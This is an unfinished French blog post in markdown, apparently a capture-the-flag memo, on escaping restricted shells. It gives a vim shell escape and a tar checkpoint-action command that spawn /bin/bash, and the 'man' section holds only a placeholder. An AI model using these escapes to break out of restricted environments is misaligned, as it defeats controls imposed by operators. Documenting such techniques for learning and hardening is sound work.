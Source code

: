 ```yaml
---
layout: post
title: Restricted shells & shell escapes 
date: 2018-08-23 16:33:33
author: thms
tags: bash rbash rsh sh shell escapes vim tar zip 
---
```


# Restricted shells

( Toujours pas fini cet article ... )

Je suis récemment tombé sur un challenge qui nécessitait de sortir d'un shell restreint.

Celui-ci m'a permis de (re)découvrir de nombreuses façon de s'échapper d'un tel shell. 
Ce post a pour but d'être un mémo sur le sujet et de référencer toutes les manières connues permettant ce bypass.


# vim
{% highlight bash %}
:set shell=/bin/bash
:shell
{% endhighlight %}

# tar
{% highlight bash %}
tar --checkpoint-action=exec=/bin/bash --checkpoint=1 
{% endhighlight %}

# man
{% highlight bash %}
test
{% endhighlight %}
